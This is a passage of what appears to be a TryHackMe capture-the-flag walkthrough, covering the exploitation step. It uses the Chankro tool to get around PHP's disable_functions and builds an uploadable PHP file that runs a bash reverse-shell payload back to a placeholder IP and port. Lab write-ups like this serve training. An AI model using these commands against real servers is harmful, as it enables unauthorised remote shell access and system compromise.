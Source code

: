 <img src="phpinfo.png" width="800" height="auto">

### 5. Exploitation

In this room, we are recommend to use **Chankro** to exploit the web server
**Usage:** Tool to evade disable_functions and open_basedir  
**Installation**
```bash
git clone https://github.com/TarlogicSecurity/Chankro.git
cd Chankro
python2 chankro.py --help
```
**Command**
```bash
python2 chankro.py --arch 64 --input c.sh --output tryhackme.php --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db
```
**Description**
```text
--arch = Architecture of system victim 32 o 64.
--input = file with your payload to execute
--output = Name of the PHP file you are going to create; this is the file you will need to upload.
--path = It is necessary to specify the absolute path where our uploaded PHP file is located. For example, if our file is located in the uploads folder DOCUMENTROOT + uploads.
```
Before running the command, we need to create **c.sh** first
```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
```
**Output**  

<img src="output.png" width=800 height="auto">
